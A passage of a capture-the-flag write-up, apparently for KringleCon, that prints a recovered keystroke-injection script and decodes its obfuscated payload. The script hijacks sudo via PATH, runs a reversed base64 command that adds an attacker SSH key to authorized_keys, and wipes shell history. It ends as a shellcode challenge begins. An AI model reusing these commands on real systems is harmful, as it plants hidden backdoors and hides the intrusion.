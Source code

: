 ```shell                              
ENTER
DELAY 200
STRING chmod u+x ~/.config/sudo/sudo
ENTER
DELAY 200
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bash_profile
ENTER
DELAY 200
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```

Take a look at the command that looks like it contains a reversed SSH key and is decoding base64:
```shell
elf@64d27a2270ff:~$ echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```

Bingo - it's ickymcgoop!

### 6. Shellcode Primer
#### Difficulty
3/5

#### Description
Complete the [Shellcode Primer](https://tracer.kringlecastle.com/) in Jack's office. According to the last challenge, what is the secret to KringleCon success? "All of our speakers and organizers, providing the gift of ____, free to the community." Talk to Chimney Scissorsticks in the NetWars area for hints.

#### Solution

The first 10 are warmup exercises to get exposure to writing shell code &ndash; keep this [reference](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) open. In the 11th, you have to figure it all out on your own:
